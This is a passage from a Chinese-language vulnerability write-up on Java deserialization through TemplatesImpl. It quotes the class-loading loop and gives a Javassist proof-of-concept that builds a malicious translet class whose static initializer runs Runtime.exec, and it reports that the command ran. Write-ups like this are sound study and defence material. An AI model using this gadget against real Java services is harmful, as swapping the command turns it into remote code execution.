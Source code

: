 判断`_name`和`_class`参数,都是可以通过反射来控制的，跟进defineTransletClasses方法

![image-20220120220825705](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220120220825705.png)

`_bytecodes`不能为空,否则就抛出异常

```
for (int i = 0; i < classCount; i++) {
    _class[i] = loader.defineClass(_bytecodes[i]);//将bytecodes字节数组还原成Class对象
    final Class superClass = _class[i].getSuperclass();//获取其超类

    // Check if this is the main class
    if (superClass.getName().equals(ABSTRACT_TRANSLET)) {  //判断超类是和ABSTRACT_TRANSLET变量相同
        _transletIndex = i;
    }
    else {
        _auxClasses.put(_class[i].getName(), _class[i]);
    }
}
```

所以相对应的POC代码

```
ClassPool pool = ClassPool.getDefault();
CtClass STU = pool.makeClass("T0WN");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
STU.makeClassInitializer().insertBefore(cmd);
STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
STU.writeFile();
byte[] bytes = STU.toBytecode();
byte[][] targetbytes = new byte[][]{bytes};
```

利用Javassist编写恶意类,然后在TemplatesImpl中加载恶意类

接下来实例化恶意类

![image-20220120221410161](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220120221410161.png)

# 漏洞复现

![image-20220120221431349](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220120221431349.png)

命令执行成功





参考链接

https://www.freebuf.com/vuls/252643.html